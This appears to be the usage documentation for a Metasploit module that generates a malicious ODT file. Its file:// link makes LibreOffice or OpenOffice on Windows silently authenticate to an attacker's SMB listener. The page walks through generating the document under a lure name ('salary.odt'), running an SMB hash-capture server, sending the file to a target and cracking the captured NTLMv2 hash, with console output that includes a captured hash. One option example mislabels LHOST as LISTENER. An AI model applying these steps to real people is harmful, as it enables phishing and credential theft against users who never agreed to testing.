 BADODT Module creates an ODT file which includes a file:// link which points back to a listening SMB capture server.
This module has been tested on both LibreOffice 6.03 /Apache OpenOffice 4.1.5 and upon opening connects to the server
without providing any warning to the user. This allows an attacker the opportunity to potentially steal NetNTLM hashes.

## Vulnerable Application

 - [LibreOffice 6.03](https://www.libreoffice.org/download/download/)
 - [Apache OpenOffice 4.1.5](https://sourceforge.net/projects/openofficeorg.mirror/files/4.1.5/binaries/en-US/Apache_OpenOffice_4.1.5_Win_x86_install_en-US.exe/download)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/fileformat/odt_badodt```
  4. Customise Options as required
  5. Do: ```run```
  6. A malicious document will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Send document to target and wait for them to open.

## Options

**CREATOR**

This option allows you to customise the document author for the new document:
```
set CREATOR New_User
```

**FILENAME**

This option allows you to customise the generated filename:
```
set FILENAME salary.odt
```

**LHOST**

This option allows you to set the IP address of the SMB Listener that the .odt document points to:

```
set LISTENER 192.168.1.25
```

## Scenarios

Install LibreOffice 6.03 or Apache OpenOffice 4.1.5 on a Windows workstation.  (Note: This attack does not work against Mac or Linux versions.)

  ```
  msf > use auxiliary/fileformat/odt_badodt 
  msf auxiliary(fileformat/odt_badodt) > set FILENAME salary.odt
  FILENAME => salary.odt
  msf auxiliary(fileformat/odt_badodt) > set LHOST 192.168.1.25
  LHOST => 192.168.1.25
  msf auxiliary(fileformat/odt_badodt) > set CREATOR A_USER
  CREATOR => A_USER
  msf auxiliary(fileformat/odt_badodt) > exploit

  [*] Generating Malicious ODT File 
  [*] SMB Listener Address will be set to 192.168.1.25
  [+] salary.odt stored at /root/.msf4/local/salary.odt
  [*] Auxiliary module execution completed
  msf auxiliary(fileformat/odt_badodt) > 
  ```

On an attacker workstation, use a tool to serve and capture an SMB share on port 445, capturing NTLM hashes.  Note that any tool listening on :445 will require superuser permissions:

  ```
  $ sudo ./msfconsole
  msf > use auxiliary/server/capture/smb 
  msf auxiliary(server/capture/smb) > run
  [*] Auxiliary module running as background job 0.
  msf auxiliary(server/capture/smb) >
  [*] Server started.

  msf auxiliary(server/capture/smb) >
  ```

Leave the metasploit SMB server listening while the user opens the document.  Upon opening the ODT file, the user workstation will attempt to connect (and authenticate) to the attacker workstation:

  ```
  [*] SMB Captured - 2018-06-06 11:14:23 -0500
  NTLMv2 Response Captured from 192.168.108.171:49180 - 192.168.108.171
  USER:asoto-r7 DOMAIN:WIN-TSD7B7BQKDQ OS: LM:
  LMHASH:Disabled
  LM_CLIENT_CHALLENGE:Disabled
  NTHASH:3910d841a30289ad9876e09321c1099a
  NT_CLIENT_CHALLENGE:0101000000000000a9d923e9f909391957581abc8d91038400000000020000000000000000000000
  ```

Finally, crack the hash to capture the user's credentials.
